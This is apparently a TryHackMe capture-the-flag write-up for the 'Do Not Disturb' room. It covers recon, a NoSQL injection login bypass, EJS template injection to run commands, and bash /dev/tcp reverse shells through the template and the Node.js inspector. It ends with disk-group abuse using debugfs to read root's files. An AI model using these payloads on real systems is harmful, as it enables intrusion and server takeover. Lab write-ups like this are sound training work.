








# [Do Not Disturb] Writeup

**TryHackMe:** [https://tryhackme.com/room/hh-donotdisturb-84a45644]

## Overview

**Category** -- [Boot2Root]

**Difficulty** -- [Medium]

**Provided Info** -- [A single lab machine IP]

**Questions:**

- `What is the user flag?`
- `What is the root flag?`

---

## 1. Reconnaissance

### Port Scanning

```
nmap -sV -T4 [target_ip]
```

I usually start with this `nmap` scan as its fast and covers a lot of the basic ports 

**Results:**

| Port | State | Service | Version             |
| ---- | ----- | ------- | ------------------- |
| 22   | open  | SSH     | [9.6.1]             |
| 80   | open  | HTTP    | [Node.js (Express)] |

When i visited the site heres what im greeted with:



There was nothing of interest in the page source and no `JavaScript` running on this page so i decided to use `Gobuster` to see if i can locate any more directories.
### Enumeration

The command i used:
```
gobuster dir -u http://[target_ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 60
```
- `dir` - specifies a directory enumeration scan
- `-u [url]` specifies the url to scan
- `-w [wordlist]` - specifies the wordlist to use to scan for directories
- `-t [threads]` - specifies how many threads to use

Heres what i got:



The staff pages may come in handy later but for now i cannot access them.
Perhaps later i will attempt another enumeration scan with a bigger wordlist but for now i will look for other options.

## 2. NoSQL Injection

After some reasearch on `node.js express` hosted websites i learned that its not uncommon for them to be vulnerable to something called `NoSQL Injection`. Which is just the same idea as `SQL Injection` but without using `SQL`. So in burp suite i captured a `post request` from the login form, sent it to the repeater and changed the post requests username and password field from this:
```
username=attendant&password=pass123
```

To this:
```
username=attendant&password[$ne]=pass123
```

The idea behind this `NoSQL Injection` is that instead of it checking if `password` = "pass123", it checks if password does not = "pass123". The reason this works is because the square brackets cause the request parser to interpret the password `string` to instead be a password `object`, and inside this object is a condition that says the password must not equal "pass123", which allows us to login. The reason i used the username "attendant" was because it was the default placeholder for the username field on the login page.

Heres the page i got access to after the `NoSQL Injection` worked:



## 3. Cross-Site Scripting
I was logged in as `attendant`, redirected to /staff and then given an input box that probably requires `XSS` (Cross-site scripting). It says `EJS` (Embedded Java-Script), so i entered a javascript command to test for `XSS` which was - `<script>alert(1)</script>` and i got an alert popup which confirms Java-Script `XSS` is possible:



After some research on what i can actually do with EJS `XSS`, i discovered something called SSTI (Server-Side Template Injection), which is pretty much when you inject code into a template that the server processes which causes the server to execute the code. So i tested it with `process.version` and as you can see it executed the `process.version` command and outputted the result:



I then tried this command - 
```
<%= process.mainModule.require('child_process').execSync('whoami').toString() %>
```
and it worked with the output - `poolside`.
This confirms i have access to the `mainModule`'s `child_process` module which provides functions for running OS commands on the server. 

So i set up a listener on my attacker device with this command:
```
nc -lvnp 4444
```
-  `nc` - executes netcat
-  `-l` - starts listener
-  `-v` - verbose output, shows more connection information
-  `-n` - numeric only, skips any dns resolution
-  `-p [port_number]` - specifies port number to listen on

and then changed the `XSS` command from:
```
<%= process.mainModule.require('child_process').execSync('whoami').toString() %>
```

To:
```
<%= process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/[local_ip]/4444 0>&1"').toString() %>
```

This is a reverse shell command that when executed will connect the server that its being executed on, back to my listener that i started before and give me a persistent shell session on the server.

How this works:
- `bash -c "..."` - starts a bash session and tells bash to execute the following command in quotes
- `bash -i` - starts a bash interactive shell, allowing interactive commands instead of one command
- `>& /dev/tcp/[local_ip]/4444` - redirects the interactive shells standard output (stdout) and standard error (stderr) to a TCP connection to `[local_ip]` on port `4444`. `/dev/tcp` is a bash feature that allows TCP connections to be accessed through file paths.
- `0>&1` - routes the standard input (stdin[0]) to the same place as the standard output (stdout[1]) 

I successfully got a reverse shell as the user `poolside`:



I then navigated to the `poolside` users home directory and found the `user.txt` file and got the first flag. Thats flag 1/2. Time to get the `root` flag.

### 4. Shell Upgrade
I decided to upgrade to a better shell session, not the limited one that a nc connection gets you. So i first used 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- `python3 -c` - tells python to execute the code supplied as a string
- `import pty` — imports pythons PTY (pseudo terminal) module
- `pty.spawn("/bin/bash")` - starts `/bin/bash` inside a pseudo terminal.
Then i pressed `CTRL + Z` to suspend the nc listener and give me my original terminal shell again so i can type this command in:
```
stty raw -echo; fg
```
- `stty` - changes terminal settings
- `raw` - makes the terminal pass keystrokes directly through instead of processing them normally
- `-echo` - stops your local terminal from displaying the characters you type
- `;` - end of command, execute the next one
- `fg` - foregrounds the netcat terminal connection
This helps your local terminal communicate properly with the remote TTY.

Then i used:
```
export TERM=xterm
```
- Tells programs on the target that your terminal behaves like an **xterm** terminal
- Helps programs such as `clear`, `vim`, and `nano` understand what terminal features are available
And lastly i use: 
```
stty rows 39 columns 187
```
so that my outputs fill the terminal instead of being too small or too large.
## 5. Privilege Escalation / Lateral movement

I checked what home directories are on the system with this command:
```
ls -al /home
```

I found 3 users, `pipelinesvc`, `poolside` and `ubuntu`.

Then i started looking for privilege escalation options to the `pipelinesvc` user by checking `crontabs` and `.bash_history` of the poolside user, and when i tried `ps -ef` i found this: 
```
pipelinesvc     601       1  0 00:56 ?        00:00:00 /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```
The pipelinesvc user was running the command `/usr/bin/node --inspect=127.0.0.1:9229 processor.js`

I used:
```
find / -name processor.js 2>/dev/null
```
to find the location of the file. It was in 3 seperate locations but the main one was:
```
/opt/pipelinesvc/telemetry
```

so i navigated there and used cat on the `processor.js` file and heres a snippet of the code:



This code is running the `processBatch()` function every 5 seconds and running console.log on the 12th interval. If i can somehow inject malicious reverse shell code here in 5 seconds it will execute my code and give me access the the `pipelinesvc` user.

So since i know that the debugger is running locally on  `127.0.0.1:9229` like i discovered after using `ps -ef` we can connect to it using nodes built in debugging client with these commands:
```
node inspect 127.0.0.1:9229

repl
```
- `node inspect [address:port]` - connects me to the debugger for that service
- `repl` - stands for `read eval print loop` - turns the debugger into an interactive `JavaScript` console

Then i tested some commands to see if i could execute OS level commands as the `pipelinesvc` user:


 
 These commands confirmed i am the correct user, and that i do have the ability to execute commands as that user. So i set up another listener with this command:
```
nc -lvnp 4445
```
And then used the same reverse shell as before:
```
process.getBuiltinModule('child_process').execSync('bash -c "bash -i >& /dev/tcp/[local_ip]/4445 0>&1"').toString()
```
And it worked, i sucessfully got a reverse shell as the user `pipelinesvc`.

## 6. Disk Group Abuse

I then tried a bit of enumeration to see if there is anything interesting in the home directory or if i can locate the `root.txt` file yet but i found nothing.

However after checking `groups` i found this user was in the `disk` group which is significant because i may be able to bypass normal file permissions and access the `root.txt` file which is most likely in the`/root` directory that i cant access.

So i used a few commands to figure out which partition has the root mountpoint on it, and if i even have access to it as a member of the `disk` group:

```
df -h /
```
- `df` - diskfree - prints disk information 
- `-h` - human readable format 
- `/` - asking specifically for the file system containing the root directory

```
lsblk
```
- `ls` - list
- `blk` - block devices (disks and partitions)

From these 2 commands i found that the root directory is on the `nvme0n1p1` partition of the `nvme0n1` drive. 

```
ls -al /dev/nvme0n1p1
```
- `ls` - list
- `-a` - include hidden entries
- `-l` - long format
Using this command it revealed that the disk group has read and write permissions over this directory.

So first thing i did is use this command to list the files in the `/root` directory:
```
debugfs -R "ls -p /root" /dev/nvme0n1p1
```
- `debugfs` - debug mode for filesystem
- `-R "..."` - run a command
- `ls -p [directory]` - list contents of this directory and display in a more readable way
- `/dev/nvme0n1p1` - the file system / partition to locate the `/root` directory in

This command outputted multiple files including the `root.txt` file. So all i needed to do was use this command:
```
debugfs -R "cat /root/root.txt" /dev/nvme0n1p1
```
And it outputted the final flag to answer question 2/2.

## Conclusion
This CTF required lots of different techniques in order to capture the 2 hidden flags on the target machine.

The techniques included from first to last are:
- Port scanning 
- Enumeration
- NoSQL Injection (NSQLI)
- Cross-Site Scripting (XSS)
- Server-Side Template Injection (SSTI)
- Multiple reverse shells
- Privilege escalation / Lateral Movement 
- Leveraging Node.js inspector service for Remote Code Execution (RCE)
- Abusing `disk` group permissions to access restricted files
## What i Learned
I learned many new techniques during this CTF, the main ones are NoSQL injection, Server-Side Template Injection, how to leverage the node.js inspector service, and how to abuse the disk file permissions. This CTF also gave me some insight into how `JavaScript` console commands are constructed and executed.
